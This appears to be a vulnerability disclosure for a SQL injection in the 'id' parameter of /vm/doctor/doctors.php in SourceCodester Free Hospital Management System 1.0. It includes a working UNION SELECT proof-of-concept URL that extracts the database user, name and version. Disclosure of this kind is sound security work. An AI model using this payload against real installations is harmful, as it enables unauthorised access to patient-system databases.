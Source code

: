 # SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/doctor/doctors.php
## Software
- Software: Free Hospital Management System for Small Practices 1.0
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/doctor/doctors.php. Affected is file `/vm/doctor/doctors.php?action=view&id=2`,The manipulation of the argument `id` leads to SQL inject.

## Vulnerability Code
- /vm/doctor/doctors.php

![Vulnerability-Code](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/9f6b88c2-490d-4426-afc4-99a5a2600f89)

## POC

```
http://localhost/vm/doctor/doctors.php?action=view&id=0' union select 1,current_user(),database(),4,version(),6,7--+
```
![Exploit](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/899c3b20-4f75-4f0a-af57-c1097ada5f7f)

